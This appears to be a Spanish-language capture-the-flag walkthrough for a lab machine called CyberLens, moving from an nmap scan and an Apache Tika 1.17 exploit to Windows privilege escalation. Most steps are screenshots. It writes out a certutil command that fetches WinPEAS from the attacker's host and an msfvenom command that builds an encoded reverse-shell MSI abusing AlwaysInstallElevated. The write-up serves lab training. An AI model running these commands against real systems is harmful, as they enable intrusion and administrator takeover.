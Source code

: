 Realizamos un escaneo de nmap
![[Pasted image 20240605074030.png]]

Revisamos los puertos abiertos y encontramos dos puertos con el servicio http abiertos, vamos a analizarlos, si abrimos el navegador y escribimos la direccion de primeras aparece lo siguiente
![[Pasted image 20240605074518.png]]

Analizando un poco mas la web descubrimos que podemos subir archivos
![[Pasted image 20240605074548.png]]

Seguimos enumerando mas información
![[Pasted image 20240605074719.png]]

Realizando fuzzing web encontramos un ficheros .js el cual contiene el codigo para subir ficheros de la imagen vista previamente
![[Pasted image 20240605080636.png]]

Revisamos la url y nos encontramos con este servidor Apache Tika 1.17
![[Pasted image 20240605083217.png]]

Vamos a sacar mas información sobre esta url, primero capturamos la petición y encontramos la siguiente información
![[Pasted image 20240605081923.png]]

Por lo que vemos acepta los siguientes ficheros y la imagen anterior nos muestra donde envia los ficheros, la ruta es la siguiente `http://cyberlens.thm:61777/meta` revisamos que peticiones acepta
```Bash
curl -i -X OPTIONS http://cyberlens.thm:61777/meta
```
![[Pasted image 20240605082059.png]]

Una vez enumerada la información buscamos la version de Apache tika 1.17 y encontramos una vulnerabilidad
Revisamos y encontramos un exploit para esta version del servidor apache
![[Pasted image 20240605083405.png]]

Seleccionamos el exploit
![[Pasted image 20240605083537.png]]

Lo configuramos
![[Pasted image 20240605084540.png]]

Y al ejecutarlo obtenemos acceso a la maquina
![[Pasted image 20240605084615.png]]

Ahora vamos a realizar la enumeración local y a hacer una escalada de privilegios, arrancamos un servidor donde se encuentre el archivo WinPEAS.exe
![[Pasted image 20240522113717.png]]

Descargarnos el fichero
```Powershell
certutil -urlcache -f http://10.9.0.160:8080/winPEASany_ofs.exe C:\Users\CyberLens\Desktop\WinPEAS.exe
```
![[Pasted image 20240605094835.png]]

Ahora ejecutamos WinPEAS
![[Pasted image 20240605095025.png]]

Ahora tendremos que analizar la información y ver que vulnerabilidades a detectado
![[Pasted image 20240605100728.png]]
![[Pasted image 20240605100824.png]]


Enumeramos la información de los usuarios
![[Pasted image 20240605115244.png]]
![[Pasted image 20240605115515.png]]

Detectamos que esta habilitado la ejecución de archivos MSI en la maquina victima `Always Install Elevated`, asi que crearemos un ejecuable con msfvenom y lo ejecutaremos en la maquina victima
```Bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.9.0.160 LPORT=4444 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstalElevated.msi
```
![[Pasted image 20240605120644.png]]

Creamos un servidor de python para traspasar el fichero
![[Pasted image 20240605120741.png]]

Y lo descargamos
![[Pasted image 20240605120951.png]]

Ahora verificamos que esta el archivo
![[Pasted image 20240605121034.png]]

Ahora nos ponemos en escucha con netcat
![[Pasted image 20240605121100.png]]

Y ejecutamos el archivo msi
![[Pasted image 20240605121132.png]]

Al volver a nuestro termianl de netcat habremos obtenido una sesion como administrador
![[Pasted image 20240605121216.png]]

Ahora ya podriamos leer la flag de admin
![[Pasted image 20240605121436.png]]







